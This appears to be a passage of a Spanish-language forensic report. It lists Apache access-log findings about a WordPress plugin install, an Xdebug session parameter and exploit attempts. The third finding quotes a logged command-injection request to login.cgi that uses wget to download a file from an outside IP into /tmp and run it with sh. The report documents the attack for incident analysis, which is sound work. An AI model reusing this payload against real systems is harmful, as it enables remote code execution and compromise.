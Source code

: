 - Hallazgo 15: Instalación del plugin 'reflex-gallery'

| Campo                         | Valor                                                                                                                                                                             |
| ----------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`                                                                                                                                                     |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:24:55 +0000] "GET /wp-admin/plugin-install.php?tab=plugin-information&plugin=reflex-gallery&TB_iframe=true&width=600&height=550 HTTP/1.1" 200` |
| MAC time                      | 20/Apr/2024:00:24:55 +0000                                                                                                                                                        |
| Tamaño lógico del fichero     | N/A (Fragmento del log)                                                                                                                                                           |
| Valor hash del fichero        | N/A (Fragmento del log)                                                                                                                                                           |

- Hallazgo 16: Uso del parámetro XDEBUG_SESSION_START

| Campo                         | Valor                                                                                                                       |
| ----------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`                                                                                               |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:25:39 +0000] "GET / HTTP/1.1" 200 "-" "Mozilla/5.0 (...) XDEBUG_SESSION_START=phpstorm"` |
| MAC time                      | 20/Apr/2024:00:25:39 +0000                                                                                                  |

- Hallazgo 17: Intentos de explotación a través de login.cgi

| Campo                         | Valor                                                                                                                                                                                 |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`                                                                                                                                                         |
| Contenido del fichero         | `197.55.45.100 - - [22/Jul/2018:11:37:31 +0000] "GET /login.cgi?cli=aa%20aa%27;wget%20http://104.244.72.82/k%20-O%20-%3E%20/tmp/k;sh%20/tmp/k%27$ HTTP/1.1" 400 0 "-" "Hello, World"` |
| MAC time                      | 22/Jul/2018:11:37:31 +0000                                                                                                                                                            |
